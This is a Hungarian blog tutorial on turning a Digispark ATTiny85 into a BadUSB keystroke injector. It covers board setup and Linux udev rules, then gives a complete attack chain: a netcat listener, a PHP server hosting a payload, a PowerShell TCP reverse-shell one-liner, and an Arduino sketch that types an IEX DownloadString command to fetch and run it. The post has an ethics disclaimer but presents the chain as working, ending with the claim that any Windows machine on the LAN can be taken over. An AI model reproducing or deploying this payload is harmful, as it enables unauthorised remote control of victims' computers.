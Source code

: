 +++
title= "Csak egy ártatlan pendrive"
date= 2024-07-23T19:22:46+02:00
draft= false
toc= true
summary = "Filmekben lehet látni olyat, hogy a titkosügynökök a számítógépbe dugnak egy pendrive-ot és utána történik a varázslat. Ez is valami ehhez hasonló."
description = "Piacon már régota kint van a USB Rubber Ducky, ami lényegében egy pendrive-nak álcázott mikrokontroller. Közönséges érdelődők számára kicsit elérhetetlen áron van szerintem, mivel jelenleg $80 egy darab. Ezért szerettem volna kipróbálni egy olcsóbb de minőségben közelítő alternatívát."
tags = ['Digispark', 'badusb', 'infosec']
+++

Bedugod, eltelik 5 másodperc, megtörténik a varázs és kihúzod. Nem, ez most nem az forgatókönyv amire gondolsz, ez történik a USB Rubber Ducky-hez hasonló mikrokontrollerek használatakor. Lényegében a számítógép ilyenkor ezeket az eszközöket HID-ként, azaz Human Interface Device-ként kezeli, mint például egy billentyűzetet is. Ez azt engedi meg, hogy lényegében az USB bedugása után elindul az arra feltöltött program, és elkezdi gépelni ezerrel azt, mindeközben az operációs rendszer teljes engedelmességet tanusít. Első kérdés az lenne, hogy ezt miért teheti meg, miért nem kér a számítógép jogosultságot? Billentyűzetben is megbízik a számítógép, mivel ember ül mögötte nem pedig egy zsarolóprogram vagy bármi ilyesmi, és hasonlanó viszonyúl minden más HID-hez is, beleértve a "badUSB"-t is. Ezek a kis eszközök viszont sokkal gyorsabban tudnak gépelni mint egy ember, ezért a lehetőségeknek csak a kreativitás szab határt. Azt nem szabad elfelejteni, hogy talán azért nem jelent ez akkora biztonsági kockázatot, mint ahogyan én most itt felvezettem, mert egy nagyon fontos feltételnek teljesülnie kell a müködéséhez: fizikai jelenlét. Ez nagy kihívást jelenthet a legtöbb támadó fél számára, de az esély rá nem 0 tehát számolni kell vele. Olyanra is volt már példa, hogy célzottan például egy rendőrség vagy irodaház parkolójában szórtak szét ilyen kártékony USB-ket és az áldozatok, emberlétükre kiváncsiságból bedugták a szervezeti, céges számítógépükbe és a baj meg is történt még mielőtt észrevették volna.

Persze nem csak csúnya dolgokra lehet ezt használni. Ha például rendszergazdák vagyunk akkor akár a repetatív feladatokat könnyen felcserélhetjük egy bedugás és kihúzás mozdulatára ennek segítségével.

## Felelősség

A tudás és a tapsztalat felelősséggel, és azon kötelességgel jár, hogy csak is embertársaink, és környezetünk előnyére, jólétére használhatjuk fel. Semmilyen körülmények között nem élhetünk vissza azzal a hatalommal, amelyet az élet ruházott ránk, amikor voltunk olyan szerencsések, hogy valamire rájöttünk, valamit megtanultunk. Ez különösen igaz a kiberbiztonság témakörében és még máskor is ki fogom ezt hangsúlyozni. Én az itt bemutatott technikákat csakis saját, vagy olyan rendszeren, számítógépen próbálom ki, amelyekhez engedélyt kaptam a tulajdonostól. A célom az a dokumentálás és a tanításnak a szándéka, hogy így egy biztonságosabb internet és informatika születhessen. **Ezáltal szeretném tisztázni, hogy engem semmilyen felelősség nem terhel, hogy TE a saját döntéseid után ezt a tudást mire használod.**

## Digispark ATTiny85

Az alternatívát a Digispark kínálja mely egy ATTiny85 8 bites RISC utasításkészletű mikrokontrollerrel rendelkezik, amely hála a fejlesztőknek, kompatibilis az Arduino IDE fejlesztői környezettel egy kis babrálás után. Az ára rendkívül baráti a $80-hoz képest, magyarországi forgalmazók 1500 Ft környékén árulják, de ha van időd megvárni, akkor lehet hogy Aliexpressről olcsőbban be tudod szerezni. Nem promóció de [itt](https://www.hestore.hu/prod_10036419.html) egy magyar forgalmazónál egy példa.

Itt a cukiság

![Digispark](/digispark.jpg)

### Ardunio IDE setup

Az Arduino IDE-t töltsd le a hivatalos oldalról, vagy csomagkezelőddel (nekem a csomagkezelős változat hiányos volt). Mivel ez nem egy Arduino board ezér külön le kell tölteni hozzá az illesztést. Ezt az alábbi módon tudod megtenni:
1. **File >> Prefrences >> Additional board manager URLs:** ide illeszd be ezt a linket **https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json** (más tutoriálokban esetleg más linket látsz az azért van mert azok még a hivatalos oldalról vannak, de sajnos nem olyan rég megszűnt a támogatás onnan, ezért kellett kiásnom a Github repo-ból ugyanarra a fájlra mutató linket).
2. **Board manager >> Itt keresd meg a "Digistump AVR" csomagot** és töltsd le.
3. **Tools >> Itt a "programmer"-nél** válaszd ki a Micronucleus-t, a "board"-nál pedig a Digispark 16,5 Mhz (default)-ot.

Kész is vagy!

### Egyéb

Az eredeti Arduino board-okat az operációs rendszerek automatikusan ellátják a megfelelő jogosultságokkal, hogy programozhatóak legyenek, de könnyen lehet hogy neked a Digisparkot nem ismeri fel hasonlóképpen. Ennek megoldásához Linuxon a továbbiakat kell tenned:

1. Hozz létre egy 49-micronucleus.rules fájlt az itt jelölt helyen: /etc/udev/rules.d/49-micronucleus.rules
2. Másold bele ezeket a sorokat és futtasd a parancsot: 

SUBSYSTEMS=="usb", ATTRS{idVendor}=="16d0", ATTRS{idProduct}=="0753", MODE:="0666"

KERNEL=="ttyACM*", ATTRS{idVendor}=="16d0", ATTRS{idProduct}=="0753", MODE:="0666", ENV{ID_MM_DEVICE_IGNORE}="1"

```sh 
sudo udevadm control --reload-rules
```

## Payload

Most már lehet programozni a kis cukiságot. Én példaképpen egy rendkívül egyszerű reverse shell-t fogok megvalósítani vele, a cél számítógép és a saját gépem között.

> **Reverse shell:** A shell az egy médium, egy interfész a felhasználó és a vas között, ami általában parancssorba gépelt utasításokat lefordít a számítógép nyelvére, hogy aztán a kernel segítségével végrehajtódjanak. A shell az vonatkozhat egy távoli eléréssel kapcsolódott számítógépre is, erre ismert protokolok például az SSH (Secure Shell). Ilyenkor a távoli számítógép "hallgatózik", hogy van-e valaki aki kapcsolatot akar teremteni vele, és ha mi akarunk az otthoni gépünkről elérni az ottani shell-t, akkor mi küldünk kérést neki. A **reverse shell** "reverse" része abból következik, hogy ilyenkor a szerepek feladata megcserélődik, a távoli gép kezdeményezi a csatlakozást. Ezt azért használják támadási vektornak mert a cél számítógép tűzfala a kimenő kéréseket nem akadályozza meg, de a bemenőeket igen. Egy ilyen reverse shell a támadónak esélyt ad, hogy fájlokat szolgáltasson ki, megteremtse a perzisztenciát, hogy ki-be tudjon járkálni kedve szerintde más sérülékenységekkel vegyítve tetszőleges célokat el tud érni vele.

![reverseshell](/reverse_shell.jpg)

Én ezt a legamatőrebb módon teszem meg (ez egy egy valós szituációban nem állna meg a helyét), csupán a koncepciót és a Digispark képességeinek egy töredékét szeretném bemutatni. A lényeg az, hogy lokálisan szolgáltatom egy php szerveren a powershell scriptet, illetve "hallgatózom" a saját gépemen a reverse shell kérést várva. Majd a cél gépen ezt a scriptet töltjük le (az USB segítségével), amit futtatva powershell-ben, csatlakozik a "hallgatózó" számítógépünkhez, így megteremtve a reverse shell-t. Ezt a folyamatot egy valós helyzetben botnettel csinálná a támadó szerintem, hogy a kilétét elfedje.

**Netcat-tel hallgatózom a 4444 porton**

```sh
nc -lp 4444
```

**php szerverrel szolgáltatom azt a könyvtárat, ahol a script van**

```sh
sudo php -S 0.0.0.0:80 -t /directory/to/folder/of/powershellScript/
```

**payload.ps1 fájl tartalma, ez a powershell script amit megosztunk**

Változtasd meg a saját host IP címedre a "HOST_IP_ADDRESS"-t.

```ps
$sm=(New-Object Net.Sockets.TCPClient("HOST_IP_ADDRESS",4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```
Samratashok érdeme ez a kis script. [Github repo](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)

Most pedig az amit tényleg az USB fog csinálni. Ugyebár úgy kell gondolkodnunk mintha egy billentyűzetet kellene programozni előre. Ahogy már említettem ehhez az Arduino IDE segítségünkre lesz.

```C
#include "DigiKeyboard.h" // a header ami leegyszerűsíti a parancsok kiírását
void setup() {
}

void loop() {
  DigiKeyboard.sendKeyStroke(0); // az eddigi gépelést "reset"-eljük
  DigiKeyboard.delay(500); // várást kell illetve ajánlott beiktatni, mert a számítógép sokszor nincs felkészülve a hirtelen billentyűnyomásra és esetleg figyelmenkívül hagy egy betűt, ezzel elrontva mindent akár
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); // Win + R
  DigiKeyboard.delay(500);
  DigiKeyboard.print("powershell \"IEX (New-Object Net.WebClient).DownloadString('https://mywebserver/payload.ps1');\""); // az említett script letöltése és futtatása, itt amúgy nekem itt bejelezett a Windows Defender, ezért kifinomultabb delivery módszer szükséges
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for (;;) {
    // üres ciklus, hogy ne fusson le újra a script
  }
}
```
Ezt a kódot feltöltjük a Micronucleus-szal a Digispark-ra és már készen is vagyunk. A saját LAN-on most már bármelyik Windows gép fölött átvehetjük az irányítást.
